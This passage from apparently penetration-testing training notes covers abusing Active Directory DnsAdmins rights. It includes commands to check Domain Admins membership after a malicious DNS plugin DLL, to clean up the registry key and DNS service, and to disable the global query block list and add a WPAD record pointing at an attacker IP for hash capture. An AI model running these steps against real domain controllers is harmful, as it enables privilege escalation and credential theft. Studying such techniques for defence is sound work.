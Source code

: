 ##### Confirming Group Membership
 
If all goes to plan, our account will be added to the Domain Admins group or receive a reverse shell if our custom DLL was made to give us a connection back
 
```
C:\> net group "Domain Admins" /dom 
```
 
#### Cleaning Up
 
**Making configuration changes and stopping/restarting the DNS service on a Domain Controller are very destructive actions and must be exercised with great care**

> These steps must be taken from an elevated console with a local or domain admin account.

#### Confirming Registry Key Added

The first step is confirming that the ServerLevelPluginDll registry key exists. Until our custom DLL is removed, we will not be able to start the DNS service again correctly

```
C:\> reg query \\<ip>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```
##### Deleting Registry Key

C:\> reg delete \\<ip>\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
 
##### Starting the DNS Service Again and Checking status
 
```
C:\> sc.exe start dns
 
C:\> sc query dns
```
 
#### Creating a WPAD Record
 
Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives us the rights to disable global query block security, which by default blocks this attack
After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine.
We could use a tool such as Responder or Inveigh to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack
 
 
##### Disabling the Global Query Block List
 
```
C:\> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.AD.local
```

##### Adding a WPAD Record

```
C:\> Add-DnsServerResourceRecordA -Name wpad -ZoneName AD.local -ComputerName dc01.AD.local -IPv4Address 10.10.14.3
```

